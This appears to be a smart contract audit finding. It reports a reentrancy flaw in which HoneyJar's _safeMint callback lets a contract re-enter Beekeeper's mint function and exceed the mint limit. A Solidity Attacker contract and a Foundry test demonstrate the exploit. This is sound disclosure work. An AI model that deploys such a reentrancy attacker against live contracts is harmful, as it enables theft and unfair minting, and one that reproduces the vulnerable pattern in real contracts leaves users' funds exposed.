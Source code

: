 `HoneyJar` uses the internal `_safeMint` function to mint the jars. This function calls the `onERC721Received` function of the receiver contract if it exists. This can be used to re-enter the `Beekeeper` contract and mint more jars before the `progress.mintedJars` array is updated, allowing the mint limit to be exceeded. Another outcome of this attack is that the token ids stored in the `progress.mintedJars` array will be incorrect.

## Proof of concept

Add the following contract to the file `Beekeeper.t.sol`.

```solidity
contract Attacker {
    Beekeeper public beekeeper;
    uint256 public mintEthPrice;
    uint256 public reentranceAmount;

    constructor(Beekeeper _beekeeper, uint256 _mintEthPrice) {
        beekeeper = _beekeeper;
        mintEthPrice = _mintEthPrice;
    }

    function mek(uint256 amount, uint256 _reentranceAmount) public payable {
        reentranceAmount = _reentranceAmount;
        beekeeper.mekHoneyJarWithETH{value: amount * mintEthPrice}(amount);
    }

    function onERC721Received(address, address, uint256, bytes memory) public virtual returns (bytes4) {
        uint256 amount = reentranceAmount;
        if (amount > 0) {
            reentranceAmount = 0;
            beekeeper.mekHoneyJarWithETH{value: amount * mintEthPrice}(amount);
        }
        return this.onERC721Received.selector;
    }
}
```

Add also the following function inside `BeekeeperTest` contract in the same file and run `forge test --mt testMintOverLimit -vv`.

```solidity
function testMintOverLimit() public {
    // Setup
    uint256 MAX_MEK_JARS = 4;
    uint256[] memory checkpoints = new uint256[](2);
    checkpoints[0] = 2;
    checkpoints[1] = MAX_MEK_JARS;
    beekeeper.setCheckpoints(0, checkpoints);
    gameRegistry.startGame(address(beekeeper));
    beekeeper.startGame(block.chainid, numSleepers);

    // Attack
    uint256 amountOverLimit = 2;
    Attacker attacker = new Attacker(beekeeper, MINT_PRICE_ETH);
    attacker.mek{value: (MAX_MEK_JARS + amountOverLimit) * MINT_PRICE_ETH}(MAX_MEK_JARS, amountOverLimit);

    assertEq(honeyJar.balanceOf(address(attacker)), MAX_MEK_JARS + amountOverLimit);
    Beekeeper.Apiculture memory progress = beekeeper.getProgress();
    for (uint256 i = 0; i < progress.mintedJars.length; i++) {
        console2.log("mintedJars[%s] = %s", i, progress.mintedJars[i]);
    }
}
```
